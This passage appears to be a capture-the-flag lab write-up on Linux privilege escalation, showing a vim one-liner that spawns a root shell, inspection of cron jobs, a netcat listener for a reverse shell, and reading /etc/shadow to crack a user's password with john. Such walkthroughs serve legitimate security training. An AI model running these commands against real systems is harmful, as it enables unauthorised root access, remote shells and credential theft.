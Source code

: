 [GTFOBINS](https://gtfobins.github.io/)
```bash
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```
#### The Flag...
![root](../../photos/root.png)

---
# Privilege Escalation: `Cron Jobs`

#### Finding the `cron jobs` in the system
```bash
cat /etc/crontap
```

there are `cron jobs` in:
- `/home/karen/backup.sh`
- `/tmp/test.py`

#### [RevShell](https://www.revshells.com/)
 Go to `revhsell` site and get a code for `python` or `bash` or both what ever you like.
 
 Then put a listener and wait....
```bash
nc -lvnp {port}
``` 

#### Matt Password

Get matt's password by accessing `/etc/shadow` from the rooted `revshell`

![matt](../../photos/matt.png)

and crack it by john...

![jo](../../photos/jo.png)

---